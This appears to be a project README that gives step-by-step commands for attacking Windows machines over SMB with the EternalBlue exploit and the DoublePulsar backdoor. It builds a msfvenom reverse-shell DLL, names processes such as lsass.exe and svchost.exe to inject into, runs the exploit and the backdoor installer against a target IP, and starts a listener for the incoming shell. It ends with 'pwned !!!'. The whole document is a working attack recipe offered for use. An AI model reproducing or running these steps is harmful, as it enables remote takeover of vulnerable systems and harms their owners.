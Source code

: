 # eternal-pulsar

Eternalblue-Doublepulsar without Metasploit and Python <br> 
- you can run it on windows or linux (need wine)


### Create payload with msfveom (staged)

` msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f dll >  shell.dll`

you can also use other payloads <b>windows/shell_reverse_tcp</b> (stageless), <b>windows/meterpreter/reverse_tcp</b>

### ProcessName list to inject
`lsass.exe (x64)` <br>
`wlms.exe  (x86) `<br>
`svchost.exe ` <br>
`explorer.exe `<br>
`spoolsv.exe `<br>


### Backdoor Install with EternalBlue 

` Eternalblue-2.2.0.exe --TargetIp 10.10.10.10 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 - -GroomAllocations 12 --OutConfig 1.txt`


### Sending shellcode to inject DLL with Doublepulsar 

` Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 10.10.10.10 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll`


### multi/handler listening with msf

` msfconsole -q -r msfhandler.rc`

#### pwned !!!

